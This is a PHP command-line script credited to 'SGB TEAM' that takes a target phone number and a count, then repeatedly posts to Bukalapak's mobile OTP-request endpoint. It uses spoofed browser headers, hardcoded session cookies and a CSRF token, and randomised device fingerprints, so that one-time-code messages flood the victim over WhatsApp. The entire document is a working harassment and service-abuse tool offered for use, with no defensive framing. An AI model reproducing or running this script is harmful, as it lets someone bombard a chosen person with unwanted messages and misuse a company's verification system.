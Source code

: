 <?php

echo "COPYRIGHT : SGB TEAM\n\n";

echo "Nomor Target?\nInput : ";

$nomer = trim(fgets(STDIN));

if(strlen($nomer)==11){

	$nomer = str_replace("0","62".$nomer);

}elseif(strlen($nomer)>12){

	$nomer = str_replace("62","0",$nomer);

}

echo "Target: $nomer (y/n)";

$cek = trim(fgets(STDIN));

if($cek=="n") exit("Stopped!\n");

echo "Jumlah?\nInput : ";

$jumlah = trim(fgets(STDIN));

for($a=0;$a<$jumlah;$a++) {

	$rand1 = md5(rand(12345678,98765432));

	$rand2 = md5(rand(12345678,98765432));

	$rand = array($rand1,$rand2);

	$rand3 = md5($rand[rand(1,2)]);

	$config['headers'] = explode("\n", "Host: m.bukalapak.com

Connection: keep-alive

Content-Length: 150

Origin: https://m.bukalapak.com

X-CSRF-Token: uYUfi93g92mZboBVB4UMwYInorBNOgyYEAbPUTikHht+xseF8BFUgg9qSgQWA9MRy7eL8G/SnbYUGg0JRM1fjw==

User-Agent: Mozilla/5.0 (Linux; Android 7.1.2; Redmi 4X Build/N2G47H) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/68.0.3440.91 Mobile Safari/537.36

Content-Type: application/x-www-form-urlencoded; charset=UTF-8

Accept: */*

X-Requested-With: XMLHttpRequest

Save-Data: on

Referer: https://m.bukalapak.com/register?from=home_mobile

Accept-Encoding: gzip, deflate, br

Accept-Language: en-US,en;q=0.9,id;q=0.8

Cookie: identity=".$rand1."; browser_id=".$rand2."; _ga=GA1.2.1024758930.1531960985; _vwo_uuid_v2=DE8E70E7E9A8960F05F20FE0ACE87643B|378e4a2f30c36053c1cb833e89ecbc2e; _gid=GA1.2.622427606.1533988422; scs=%7B%22t%22%3A1%7D; spUID=15339884253603c43b2de12.c5b45553; session_id=e95e7511997432af179935abfce90320; __auc=3eed305416528d5f584187b45b2; G_ENABLED_IDPS=google; track_register=true; affiliate_landing_visit=true; mp_51467a440ff602e0c13d513c36387ea8_mixpanel=%7B%22distinct_id%22%3A%20%22164affd88ae1d-0791dbbd558a18-1f20130c-38400-164affd88aff4%22%2C%22utm_source%22%3A%20%22hasoffers-1851%22%2C%22utm_medium%22%3A%20%22affiliate%22%2C%22utm_campaign%22%3A%20%2215%22%2C%22%24initial_referrer%22%3A%20%22%24direct%22%2C%22%24initial_referring_domain%22%3A%20%22%24direct%22%7D; ins-gaSSId=cdd66ffd-18ce-a176-a3c3-26f0ac9ec000_1534027025; lskjfewjrh34ghj23brjh234=elBsSkNBb3VKS3hzZSttTnNKTm5VNk1pWmtzV1A1YldKRm1majAzRFdsSUJtcDJJV0psL0pnOFlBamtJU1NBa1Y2czlQdjZrNlFURDNiRmZqQmNRRXRyeWRTbGV5QUdpQnZjV3JocEc3ak9QeHpWSlpRNTE4eFgzR2FieDVnc2dWaUVoZzVzMEJlMVZwM2NKWk1LaXVwQTZuOXBVR01TUUJ4ejc4MW5MTU5taGYwZ2M0bFdwM05KYy9IcTh3bThsd3dzbSt4bHd4WG9NSklrcHJtT0dHUURURVQ5YVoyb0hLQ3dyUC9NZ2V6UUNFYmVGbE84REtqOHZlKzBZUGtiRS0tV3pMamNPNDhKT1FoZ202Q1BkNUJ5dz09--5a445aefe0c06b736c22e9f359ee3b7273058175; insdrSV=32; _td=7e03facb-a77c-4ce7-8b83-2427781c78c7");

	global $config;

	$ar = http_build_query(array(

				'feature' => 'phone_registration',

				'feature_tag' => '',

				'manual_phone' => $nomer,

				'device_fingerprint' => $rand3,

				'channel' => 'WhatsApp'

)

);

	$ch = curl_init();

	curl_setopt($ch, CURLOPT_URL, "https://m.bukalapak.com/trusted_devices/otp_request");

	curl_setopt($ch, CURLOPT_SSL_VERIFYPEER, false);

	curl_setopt($ch, CURLOPT_FOLLOWLOCATION, true);

	curl_setopt($ch, CURLOPT_RETURNTRANSFER, true);

	curl_setopt($ch, CURLOPT_HEADER, false);

	curl_setopt($ch, CURLOPT_HTTPHEADER, $config['headers']);

	curl_setopt($ch, CURLOPT_POST, 1);

	curl_setopt($ch, CURLOPT_POSTFIELDS, $ar);

	$asw = curl_exec($ch);

	curl_close($ch);

	print $a.$nomer." [Sending]\n";

}

